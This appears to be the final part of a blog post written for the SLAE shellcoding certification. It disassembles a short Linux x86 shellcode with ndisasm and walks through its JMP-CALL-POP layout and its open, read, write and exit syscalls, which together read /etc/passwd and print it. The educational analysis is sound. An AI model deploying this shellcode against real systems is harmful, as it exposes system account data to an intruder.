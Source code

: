 
Using ndisasm we can disassemble the shellcode and get this result:

    
    00000000  EB36              jmp short 0x38
    00000002  B805000000        mov eax,0x5
    00000007  5B                pop ebx
    00000008  31C9              xor ecx,ecx
    0000000A  CD80              int 0x80
    0000000C  89C3              mov ebx,eax
    0000000E  B803000000        mov eax,0x3
    00000013  89E7              mov edi,esp
    00000015  89F9              mov ecx,edi
    00000017  BA00100000        mov edx,0x1000
    0000001C  CD80              int 0x80
    0000001E  89C2              mov edx,eax
    00000020  B804000000        mov eax,0x4
    00000025  BB01000000        mov ebx,0x1
    0000002A  CD80              int 0x80
    0000002C  B801000000        mov eax,0x1
    00000031  BB00000000        mov ebx,0x0
    00000036  CD80              int 0x80
    00000038  E8C5FFFFFF        call dword 0x2
    0000003D  2F                das
    0000003E  657463            gs jz 0xa4
    00000041  2F                das
    00000042  7061              jo 0xa5
    00000044  7373              jnc 0xb9
    00000046  7764              ja 0xac
    00000048  00                db 0x00
    


In the above snippet we can see that this is a JMP(00000000) - CALL(00000038) - POP(00000007) shellcode and four syscalls have been used:



	
  * sys_open(eax=0x5, ebx=filename, ecx=0);

	
  * sys_read(eax=0x3, ebx=return_value_of_open, ecx=buffer, edx=0x1000);

	
  * sys_write(eax=0x4, ebx=1, ecx=buffer, edx=return_value_of_read);

	
  * sys_exit(eax=0x1, ebx=0);


This is all for this assignment, i hope i was clear enough to let you better understand the art of the shellcoding :-)

All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).




 This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)




**Student ID: SLAE-526**
